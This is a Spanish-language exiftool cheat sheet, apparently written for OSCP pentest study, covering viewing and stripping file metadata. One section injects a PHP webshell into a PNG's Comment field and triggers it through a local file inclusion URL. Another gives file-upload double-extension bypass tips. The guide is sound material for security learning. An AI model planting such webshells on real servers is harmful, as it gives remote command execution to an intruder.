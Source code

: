 # 🛠️ Guía rápida de `exiftool` 

## 📌 ¿Qué es `exiftool`?

`exiftool` es una herramienta de línea de comandos para ver, modificar y eliminar metadatos de archivos como imágenes, documentos y vídeos. Es útil para:

- Inyectar payloads en metadatos (e.g. para LFI, RFI o XSS)
- Extraer información sensible de archivos
- Limpiar o borrar metadatos

---

## 🔍 Ver metadatos de un archivo

```bash
exiftool archivo.jpg
```

- Muestra todos los metadatos del archivo.
- Útil para detectar campos vulnerables o interesantes.

---

## ✏️ Escribir/inyectar metadatos

```bash
exiftool -Comment="Aquí va tu comentario" archivo.jpg
```

- Puedes inyectar cualquier texto.
- Ideal para inyectar código PHP en ataques de LFI + inclusión remota.

### 🐚 Ejemplo: inyectar webshell en un PNG

```bash
exiftool -Comment='<?php system($_GET["cmd"]); ?>' Capture.png
```

---

## 🧽 Borrar todos los metadatos

```bash
exiftool -all= archivo.jpg
```

- Elimina todos los metadatos del archivo.
- Útil si quieres limpiar archivos antes de compartirlos o para pruebas de evasión.

---

## 💾 Crear una copia limpia sin metadatos

```bash
exiftool -all= -overwrite_original archivo.jpg
```

- Elimina metadatos y sobrescribe el archivo original.

---

## 🔄 Ver solo un campo específico

```bash
exiftool -Comment archivo.jpg
```

- Solo muestra el contenido del campo `Comment`.

---

## 🧪 Uso ofensivo típico (OSCP-style)

1. Subes un archivo `.png` con payload PHP en los metadatos.
2. El servidor vulnerable usa `include()` o `highlight_file()` sobre ese archivo.
3. Puedes ejecutar comandos así:

```
http://target/page.php?page=uploads/Capture.png&cmd=id
```

---

## 🛠️ Instalación

```bash
sudo apt install libimage-exiftool-perl
```

---

## 🧠 Consejos para OSCP

- Practica con LFI + exif injection.
- Combina `exiftool` con técnicas de file upload y doble extensión (`.php.png`, `.phtml`, etc.).
- Ten siempre una copia de tu payload PHP listo para inyectar en `Comment`.